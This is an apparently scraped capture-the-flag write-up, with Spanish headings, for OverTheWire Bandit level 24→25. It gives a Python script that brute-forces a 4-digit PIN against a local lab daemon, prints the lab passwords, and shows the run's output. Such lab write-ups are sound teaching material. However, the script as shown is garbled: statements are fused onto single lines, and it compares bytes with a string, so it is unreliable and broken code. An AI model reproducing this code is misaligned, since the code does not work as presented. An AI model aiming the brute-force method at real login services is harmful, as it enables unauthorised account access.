 # Bandit

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Datos de acceso
bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

## Solución 
```bash
bandit24@bandit:~$ mkdir -p /tmp/secttp  
bandit24@bandit:~$ cd /tmp/secttp  
bandit24@bandit:/tmp/secttp$ touch pincode.py  
bandit24@bandit:/tmp/secttp$ vim pincode.py
import sys  
import socketpincode = 0  
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"try:  
    # Connect to server  
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    s.connect(("127.0.0.1", 30002))  
      
    # Print welcome message  
    welcome_msg = s.recv(2048)  
    print(welcome_msg)    # Try brute-forcing  
    while pincode < 10000:  
        pincode_string = str(pincode).zfill(4)  
        message=password+" "+pincode_string+"\n"        # Send message  
        s.sendall(message.encode())  
        receive_msg = s.recv(1024)        # Check result  
        if "Wrong" in receive_msg:  
            print("Wrong PINCODE: %s" % pincode_string)  
        else:  
            print(receive_msg)  
            break  
        pincode += 1  
finally:  
    sys.exit(1)
bandit24@bandit:/tmp/secttp$ python ./pincode.py  
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.Wrong PINCODE: 0000  
Wrong PINCODE: 0001  
Wrong PINCODE: 0002  
Wrong PINCODE: 0003  
Wrong PINCODE: 0004  
Wrong PINCODE: 0005  
...  
Wrong PINCODE: 2645  
Wrong PINCODE: 2646  
Wrong PINCODE: 2647  
Correct!  
The password of user bandit25 is **uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**Exiting.  
  
bandit24@bandit:/tmp/secttp$
```

## Notas adicionales

## Referencias
